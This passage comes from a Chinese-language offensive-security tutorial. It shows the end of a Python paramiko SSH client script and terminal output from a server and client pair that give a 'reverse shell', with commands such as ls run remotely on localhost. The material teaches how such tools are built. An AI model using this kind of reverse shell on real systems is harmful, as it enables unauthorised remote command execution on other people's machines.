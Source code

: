 ```python
            print "This option does not exist!"
            usage()
    if USER:
        print "[*] User set to " + USER
    if PORT:
        print "[*] The port to be used is %d. " % PORT
    if PASSWORD:
        print "[*] A password with length %d was submitted. " %len(PASSWORD)
    ssh_client(IP, PORT, USER, PASSWORD)

if __name__ == '__main__':
    main()
```

### 运行这两个脚本
让我们分别在不同的终端中运行这两个脚本，首先运行服务器脚本：
```bash
$ ssh_server.py localhost 22
[+] Listening for connection ...
```

然后运行客户端脚本：
```sh
$ ssh_client_reverse.py localhost -p 22 -u buffy -a killvampires
[*] Initializing connection to localhost
[*] User set to buffy
[*] The port to be used is 22.
[*] A password with length 12 was submitted.
Welcome to Buffy's SSH
```

现在我们可以从服务器端向客户端发送需要执行的命令：我们得到了一个反弹shell！

```sh
[+] Listening for connection ...
[+] Connection Established!
[+] Authenticated!
Enter command: ls
filename.log
ssh_client.py
ssh_client_reverse.py
ssh_server.py
test_rsa.key

Enter command:
```

**Awesomesauce!**

 啊，顺便说一下，这些脚本不仅在Linux中可以运行，在Windows和Mac中也可以（因此，下次当你使用一个没用的windows环境时，不需要安装[Putty](http://www.chiark.greenend.org.uk/~sgtatham/putty/download.html) anymore =p ).

---

## 更多相关资料：

- [Paramikos reverse SSH tunneling](https://github.com/paramiko/paramiko/blob/master/demos/rforward.py).
- [Black Hat Python](http://www.nostarch.com/blackhatpython).
- [My Gray hat repo](https://github.com/bt3gl/My-Gray-Hacker-Resources).
